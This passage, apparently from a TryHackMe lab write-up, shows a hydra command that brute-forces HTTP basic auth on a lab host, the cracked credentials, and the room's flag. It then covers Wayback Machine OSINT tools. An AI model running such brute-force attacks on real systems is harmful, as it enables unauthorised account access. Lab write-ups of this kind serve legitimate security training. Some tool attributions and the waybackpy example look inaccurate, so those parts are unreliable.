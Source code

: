 ## Exploitation

```bash
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/500-worst-passwords.txt -s 80 -f -vV enum.thm http-get /labs/basic_auth/

```
Result: 

```bash
[80][http-get] host: enum.thm   login: admin   password: yellow
[STATUS] attack finished for enum.thm (valid pair found)

```

### Flag:
THM{b4$$1C_AuTTHHH} 

# Task 6 :OSINT

## Wayback URLs and Google Dorks

## Wayback URLs
The **Wayback Machine**, provided by the Internet Archive, allows users to access historical snapshots of websites. This can be particularly useful for various activities such as recovering lost content, analyzing website history, or conducting security assessments. Here are some practical tools and methods related to Wayback URLs:

### Useful Tools for Wayback URLs
1. **Wayback Machine**  
   - **URL**: [archive.org/web](https://archive.org/web)
   - This is the primary tool for searching and accessing historical versions of websites. By entering a URL, users can view archived versions from different dates.

2. **Waybackurls** (by Gobuster)
   - **Tool**: [Waybackurls](https://github.com/tomnomnom/waybackurls)  
   - This command-line tool helps gather all the URLs of a website that have been archived by the Wayback Machine. It is often used for finding previously indexed pages that may have been removed or are not easily accessible anymore.
   - Example command:  
     ```bash
     waybackurls example.com
     ```

3. **Waybackpy** (Python tool)
   - **Tool**: [Waybackpy](https://github.com/deedy5/waybackpy)
   - Waybackpy is a Python tool that allows users to interact programmatically with the Wayback Machine to retrieve historical data from URLs.
   - Example usage:
     ```python
     from waybackpy import WaybackMachineCDXServerAPI
     url = "http://example.com"
     cdx_api = WaybackMachineCDXServerAPI(url)
     cdx_api.save()
     print(cdx_api.first())
     ```
